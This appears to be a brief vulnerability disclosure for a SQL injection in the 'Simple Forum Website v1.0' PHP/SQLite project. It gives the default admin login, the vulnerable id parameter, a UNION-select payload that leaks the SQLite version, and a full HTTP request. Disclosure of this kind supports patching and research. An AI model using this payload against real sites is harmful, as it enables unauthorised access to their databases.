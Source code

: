 # Simple Forum Website v1.0 has SQL injection

BUG_AUTHOR: za4ch

The password for the backend login account is: admin/sourcecodester&123

vendors: https://www.sourcecodester.com/php/16423/simple-forum-website-using-php-and-sqlite3-source-code-free-download.html

Vulnerability File: /php-sqlite-forum/?page=manage_user&id=

Vulnerability location: /php-sqlite-forum/?page=manage_user&id=, id

[+] Payload: /php-sqlite-forum/?page=manage_user&id=0' union select 1,sqlite_version(),3,4,5; // Leak place ---> id

```sql
GET /php-sqlite-forum/?page=manage_user&id=0%27%20union%20select%201,sqlite_version(),3,4,5; HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7a79pb4okpo5vekml899q8q4f0
Connection: close
```

![image](https://github.com/user-attachments/assets/9b76dce7-d7b9-4120-83eb-35ea8efd185c)

